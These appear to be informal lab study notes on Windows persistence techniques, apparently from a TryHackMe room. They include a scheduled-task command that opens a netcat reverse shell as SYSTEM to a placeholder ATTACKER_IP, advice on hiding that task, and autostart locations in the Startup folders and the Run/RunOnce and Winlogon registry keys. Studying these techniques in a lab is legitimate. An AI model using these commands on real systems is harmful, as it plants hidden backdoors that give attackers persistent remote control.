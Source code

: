 ```shell-session
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```

We can use this task to check whether the task is created or not 

```shell-session
schtasks /query /tn thm-taskbackdoor
```

Then we can delete the task from registry to make it "invisible"


![[Pasted image 20230517001928.png]]

# Loggon triggered Persistence

Uwu why ????? Well son if u don't want to wwait for eternity or for you marriage (which will never happen) u gotta get shell asap . In simple terms it mean u will get shell as soon as someone logs in . 

**Startup folder , we can place your executable over here and it will run it as soon as someone logs in...**

There are two way's to store file in it either we can go for a specific user or for everyone 

`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`  

copy your exe file in any one of the dir and wait for someone to login . 


**Run / RunOnce**

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

-   `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

![[Pasted image 20230517235818.png]]


**Winlogon**

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:
